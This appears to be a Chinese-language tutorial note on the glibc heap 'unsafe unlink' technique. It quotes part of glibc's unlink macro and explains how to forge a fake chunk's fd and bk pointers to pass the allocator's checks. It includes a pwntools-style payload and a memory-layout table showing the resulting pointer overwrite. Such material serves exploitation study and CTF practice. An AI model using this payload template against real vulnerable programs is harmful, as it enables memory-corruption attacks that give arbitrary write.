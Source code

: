 ```c
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```
可以通过伪造一个fakechunk，然后想办法对fakechunk进行unlink操作(比如free中的前向合并、后向合并)
想要利用成功，需要绕过几个检测

需要在fakechunk处伪造fd、bk指针，具体有两种伪造方法
```c
//方法一：需要同时伪造两条链
fakechunk->fd(fakechunk+0x10) = fakechunk
fakechunk->bk(fakechunk+0x18) = fakechunk

//方法二：可以用于只伪造一条链的情况(比如伪造倒数第二个smallbin需要让fd指向倒数第一个smallbin)
fakechunk->fd(fakechunk+0x10) = &fakechunk-0x18
fakechunk->bk(fakechunk+0x18) = &fakechunk-0x10
// 这里的fakechunk为一个全局指针，需要利用这个指针所在的地址，如果没有这个指针，需要在一个地方放置fakechunk的地址
// 比如可以在prev_size的位置存放fakechunk地址，如下
fakechunk[0] = fakechunk
fakechunk->fd(fakechunk+0x10) = fakechunk-0x18
fakechunk->bk(fakechunk+0x18) = fakechunk-0x10
```
glibc-2.26以上还需要伪造size和next chunk
fakechunk = p64(fakechunk_addr) + p64(size) + p64(fd) + p64(bk) + b'a' * (size-0x20) + p64(size)

假设现在有个data或bss段的ptr指针，指向了一块内存区域，那么我们就可以在这块内存区域中伪造fakechunk(ptr=&fakechunk)
```python
fakechunk  = p64(0) # prev_size
fakechunk += p64(0x20) # size
fakechunk += p64(ptr-0x18) # fd
fakechunk += p64(ptr-0x10) # bk
fakechunk += p64(0x20) # nextchunk->prev_size 为了绕过unlink中第一个检测
```
之后想办法unlink这块内存，比如修改某个区块的prev_size和prev_inuse，使得free该chunk时需要和前一个chunk合并，通过prev_size，找到前一个chunk(即fakechunk)，然后进行unlink

此时ptr附近的内存布局为
|address     |before unlink value|after unlink value|
|------------|-------------------|------------------|
|ptr-0x18(FD)|???                |???               |
|ptr-0x10(BK)|???                |???               |
|ptr-0x8     |???                |???               |
|ptr         |fakechunk_addr     |ptr-0x18          |
